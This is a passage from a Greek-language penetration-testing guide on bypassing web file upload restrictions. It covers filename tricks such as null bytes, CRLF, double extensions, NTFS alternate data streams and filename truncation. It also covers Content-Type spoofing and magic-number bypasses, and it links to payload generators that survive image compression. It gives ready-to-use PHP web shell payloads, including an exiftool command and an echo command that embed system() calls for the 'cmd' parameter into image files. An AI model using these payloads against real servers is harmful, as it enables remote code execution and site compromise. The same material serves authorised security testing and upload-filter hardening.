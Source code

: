 * _file.php%0a.png_
* _file.php%0d%0a.png_
* _file.phpJunk123png_
5. Προσθέστε **έναν ακόμη επίπεδο επεκτάσεων** στον προηγούμενο έλεγχο:
* _file.png.jpg.php_
* _file.php%00.png%00.jpg_
6. Δοκιμάστε να τοποθετήσετε την **εκτελέσιμη επέκταση πριν από την έγκυρη επέκταση** και ελπίστε ώστε ο διακομιστής να είναι κακοδιαμορφωμένος. (χρήσιμο για εκμετάλλευση κακοδιαμορφωμένων ρυθμίσεων Apache όπου οτιδήποτε με επέκταση _**.php**_**, αλλά** όχι απαραίτητα τελειώνει σε .php\*\* θα εκτελέσει κώδικα):
* _π.χ.: file.php.png_
7. Χρήση **NTFS alternate data stream (ADS)** στα **Windows**. Σε αυτήν την περίπτωση, ένας χαρακτήρας κολωνάκι “:” θα εισαχθεί μετά από μια απαγορευμένη επέκταση και πριν από μια επιτρεπόμενη. Ως αποτέλεσμα, θα δημιουργηθεί ένα **κενό αρχείο με την απαγορευμένη επέκταση** στον διακομιστή (π.χ. “file.asax:.jpg”). Αυτό το αρχείο μπορεί να επεξεργαστεί αργότερα χρησιμοποιώντας άλλες τεχνικές όπως η χρήση του σύντομου ονόματός του. Το πρότυπο “**::$data**” μπορεί επίσης να χρησιμοποιηθεί για τη δημιουργία μη κενών αρχείων. Επομένως, η προσθήκη ενός τελείας μετά από αυτό το πρότυπο ενδέχεται επίσης να είναι χρήσιμη για την παράκαμψη περαιτέρω περιορισμών (π.χ. “file.asp::$data.”)
8. Δοκιμάστε να χωρίσετε τα όρια ονομάτων αρχείων. Η έγκυρη επέκταση κόβεται. Και το κακόβουλο PHP παραμένει. AAA<--SNIP-->AAA.php

```
# Μέγιστο 255 bytes στο Linux
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # αφαιρέστε 4 εδώ και προσθέστε .png
# Μεταφορτώστε το αρχείο και ελέγξτε την απόκριση πόσους χαρακτήρες επιτρέπει. Ας πούμε 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Δημιουργήστε το φορτίο
AAA<--SNIP 232 A-->AAA.php.png
```
### Παράκαμψη Ελέγχων Τύπου Περιεχομένου, Magic Number, Συμπίεση & Αλλαγή Μεγέθους

* Παράκαμψη των ελέγχων **Content-Type** με τοποθέτηση της **τιμής** του **header Content-Type** σε: _image/png_, _text/plain , application/octet-stream_
1. Λίστα λέξεων για το **Content-Type**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
* Παράκαμψη του ελέγχου **magic number** προσθέτοντας στην αρχή του αρχείου τα **bytes ενός πραγματικού εικονικού αρχείου** (για να μπερδέψετε την εντολή _file_). Ή εισάγετε το shell μέσα στα **μεταδεδομένα**:\
`exiftool -Comment="<?php echo 'Εντολή:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
Ή μπορείτε επίσης να **εισάγετε το φορτίο απευθείας** σε μια εικόνα:\
`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
* Αν προστίθεται **συμπίεση στην εικόνα σας**, για παράδειγμα χρησιμοποιώντας κάποιες τυπικές βιβλιοθήκες PHP όπως η [PHP-GD](https://www.php.net/manual/fr/book.image.php), οι προηγούμενες τεχνικές δεν θα είναι χρήσιμες. Ωστόσο, μπορείτε να χρησιμοποιήσετε το **PLTE chunk** [**τεχνική που ορίζεται εδώ**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) για να εισάγετε κείμενο που θα **επιβιώσει στη συμπίεση**.
* [**Github με τον κώδικα**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_plte\_png.php)
* Η ιστοσελίδα ενδέχεται να **αλλάζει το μέγεθος** της **εικόνας**, χρησιμοποιώντας για παράδειγμα τις λειτουργίες PHP-GD `imagecopyresized` ή `imagecopyresampled`. Ωστόσο, μπορείτε να χρησιμοποιήσετε το **IDAT chunk** [**τεχνική που ορίζεται εδώ**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) για να εισάγετε κείμενο που θα **επιβιώσει στη συμπίεση**.
* [**Github με τον κώδικα**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_idat\_png.php)